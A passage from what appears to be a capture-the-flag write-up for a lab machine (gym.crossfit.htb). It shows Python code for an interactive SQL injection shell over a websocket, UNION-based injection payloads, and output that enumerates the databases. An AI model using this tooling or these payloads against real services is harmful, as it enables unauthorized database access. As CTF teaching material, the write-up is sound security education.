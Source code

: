 ```
            f'{{"message":"available","params":"{params}", "token": "{self.token}"}}'
        )
        data = json.loads(self.ws.recv())
        self.token = data["token"]
        print(data["debug"])

    def default(self, args):
        try:
            self.send_ws(args)
        except websocket._exceptions.WebSocketConnectionClosedException:
            self.connect()
            self.send_ws(args)
            
    def do_exit(self, args):
        return True

term = Term()
term.cmdloop()

```

Running it, I can send the same kinds of payloads shown above:

```

oxdf@parrot$ python3 sqli_shell.py
injection> 1
[id: 1, name: 1-month]
injection> 3
[id: 3]
injection> 3 union select 1,2
[id: 1, name: 2]

```

I can easily list the databases as well:

```

injection> 3 union select group_concat(schema_name),2 from information_schema.schemata
[id: information_schema,crossfit,employees, name: 2]

```

I could take this further by adding commands. For example, with a little refactoring, I’ll add two commands that will list the databases and the tables within a database:

```

#!/usr/bin/env python3

import json
import websocket
from cmd import Cmd

class Term(Cmd):
    prompt = "injection> "

    def __init__(self):
        self.connect()
        super().__init__()

    def connect(self):
        self.ws = websocket.create_connection("ws://gym.crossfit.htb/ws/")
        data = json.loads(self.ws.recv())
        self.token = data["token"]

```